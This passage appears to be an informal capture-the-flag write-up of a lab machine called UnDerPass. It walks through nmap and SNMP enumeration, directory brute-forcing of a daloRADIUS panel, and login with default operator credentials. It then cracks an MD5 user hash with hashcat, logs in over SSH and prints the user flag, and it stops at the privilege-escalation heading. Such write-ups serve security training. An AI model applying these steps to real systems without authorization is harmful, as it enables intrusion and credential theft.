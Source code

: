 ```
sudo nmap -sS -sC -sV -p- 10.10.11.48 
[sudo] password for wizardwalter: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-02 12:26 EDT
Nmap scan report for 10.10.11.48
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

lets check out that web page!
default ubunta page:
![[Pasted image 20251002123645.png]]

im gonna scan udp ports quick..
```
sudo nmap -sU -Pn --top-ports 100 -T3 10.10.11.48 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-02 12:39 EDT
Nmap scan report for 10.10.11.48
Host is up (0.031s latency).
Not shown: 97 closed udp ports (port-unreach)
PORT     STATE         SERVICE
161/udp  open          snmp
1812/udp open|filtered radius
1813/udp open|filtered radacct
```

ah-ha! snmp is open, lets run snmpwalk:
```
snmpwalk -v2c -c public 10.10.11.48              
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (312517) 0:52:05.17
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (3) 0:00:00.03
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.3.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
```

`steve@underpass.htb` stands out, might be a target user
we also see:
UnDerPass.htb is the only daloradius server in the basin!
UnDerPass.htb lets add to our etc/hosts
and research what daloradius server is as i have never heard of this...

so if i go to any url like help after the ip i get a 404 but when i go to:
![[Pasted image 20251002131117.png]]

i get forbidden, im gonna run gobuster/feroxbuster on this:
```
feroxbuster -u http://UnDerPass.htb/daloradius
```
```
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      319c http://underpass.htb/daloradius => http://underpass.htb/daloradius/
301      GET        9l       28w      327c http://underpass.htb/daloradius/contrib => http://underpass.htb/daloradius/contrib/
301      GET        9l       28w      323c http://underpass.htb/daloradius/app => http://underpass.htb/daloradius/app/
301      GET        9l       28w      327c http://underpass.htb/daloradius/library => http://underpass.htb/daloradius/library/
301      GET        9l       28w      323c http://underpass.htb/daloradius/doc => http://underpass.htb/daloradius/doc/
301      GET        9l       28w      325c http://underpass.htb/daloradius/setup => http://underpass.htb/daloradius/setup/
301      GET        9l       28w      330c http://underpass.htb/daloradius/app/common => http://underpass.htb/daloradius/app/common/
200      GET      340l     2968w    18011c http://underpass.htb/daloradius/LICENSE
301      GET        9l       28w      335c http://underpass.htb/daloradius/contrib/scripts => http://underpass.htb/daloradius/contrib/scripts/
301      GET        9l       28w      330c http://underpass.htb/daloradius/contrib/db => http://underpass.htb/daloradius/contrib/db/
301      GET        9l       28w      331c http://underpass.htb/daloradius/doc/install => http://underpass.htb/daloradius/doc/install/
301      GET        9l       28w      329c http://underpass.htb/daloradius/app/users => http://underpass.htb/daloradius/app/users/
301      GET        9l       28w      336c http://underpass.htb/daloradius/app/users/static => http://underpass.htb/daloradius/app/users/static/
301      GET        9l       28w      334c http://underpass.htb/daloradius/app/users/lang => http://underpass.htb/daloradius/app/users/lang/
301      GET        9l       28w      337c http://underpass.htb/daloradius/app/users/library => http://underpass.htb/daloradius/app/users/library/
301      GET        9l       28w      337c http://underpass.htb/daloradius/app/common/static => http://underpass.htb/daloradius/app/common/static/
301      GET        9l       28w      338c http://underpass.htb/daloradius/app/common/library => http://underpass.htb/daloradius/app/common/library/
301      GET        9l       28w      343c http://underpass.htb/daloradius/app/users/notifications => http://underpass.htb/daloradius/app/users/notifications/
301      GET        9l       28w      347c http://underpass.htb/daloradius/contrib/scripts/maintenance => http://underpass.htb/daloradius/contrib/scripts/maintenance/
301      GET        9l       28w      340c http://underpass.htb/daloradius/app/common/templates => http://underpass.htb/daloradius/app/common/templates/
301      GET        9l       28w      337c http://underpass.htb/daloradius/app/users/include => http://underpass.htb/daloradius/app/users/include/
200      GET      247l     1010w     7814c http://underpass.htb/daloradius/doc/install/INSTALL
301      GET        9l       28w      333c http://underpass.htb/daloradius/app/operators => http://underpass.htb/daloradius/app/operators/
301      GET        9l       28w      338c http://underpass.htb/daloradius/app/operators/lang => http://underpass.htb/daloradius/app/operators/lang/
301      GET        9l       28w      341c http://underpass.htb/daloradius/app/operators/library => http://underpass.htb/daloradius/app/operators/library/
301      GET        9l       28w      347c http://underpass.htb/daloradius/app/operators/notifications => http://underpass.htb/daloradius/app/operators/notifications/
301      GET        9l       28w      340c http://underpass.htb/daloradius/app/operators/static => http://underpass.htb/daloradius/app/operators/static/
301      GET        9l       28w      337c http://underpass.htb/daloradius/contrib/heartbeat => http://underpass.htb/daloradius/contrib/heartbeat/
```

got a lot of 301 but i did find one 200 on install. i checked it out and found default creds, so we just need to find a login page now and hopefully these work!
```
5. INSTALLATION COMPLETE
 ------------------------
    Surf to http://yourip/daloradius
    Login:
		username: administrator
		password: radius
```

i cant seem to find it so checking out the repo:
https://github.com/lirantal/daloradius
i notice that the ferox routes match exactly that in the repo, and then i find this:
![[Pasted image 20251002132133.png]]

lets try to hit this in browser...
![[Pasted image 20251002132201.png]]
we are presented with the login page! Lets try those default creds now.

they dont work, shucks
hmmm there is also a route: /app/operators/users/login.php lets try there....

http://10.10.11.48/daloradius/app/operators/login.php

![[Pasted image 20251002132646.png]]

im in!

i find a user named:
svcMosh
with pass:
412DD4759978ACFCC81DEAB01B382403

diggiing around the tabs i find this:
![[Pasted image 20251002132902.png]]

so this is def an md5 pass, lets crack it!

ill store it in hash.txt and run:
```
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
```
underwaterfriends
```

```
ssh svcMosh@10.10.11.48
```

and put in pass, and i am in!

```
cat user.txt
5dae0bbfefb041006cb06cb824917d5b
```

User PWNED!

---

### Priv Esc
